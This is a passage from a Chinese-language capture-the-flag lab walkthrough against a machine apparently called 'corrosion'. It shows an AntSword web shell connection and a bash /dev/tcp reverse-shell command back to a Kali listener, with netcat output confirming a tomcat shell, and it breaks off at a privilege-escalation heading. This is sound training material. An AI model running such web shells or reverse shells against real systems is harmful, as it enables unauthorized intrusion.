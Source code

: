 4. 上传之后使用蚁🗡连接，测试成功
    
    ![image.png](image%2093.png)
    
5. 使用蚁🗡虚拟终端进行反弹`shell` ，同时`kali`开启监听
    
    ```python
    (tomcat:/bin/sh: ) $ bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'
    ```
    
    ```python
    nc -lvp 1234                             
    listening on [any] 1234 ...
    192.168.56.6: inverse host lookup failed: Unknown host
    connect to [192.168.56.10] from (UNKNOWN) [192.168.56.6] 58882
    bash: cannot set terminal process group (1277): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@corrosion:/var/spool/cron$ 
    ```
    
    获得shell！！！
    

## 提权 - tomcat用户

1. 查看权限
    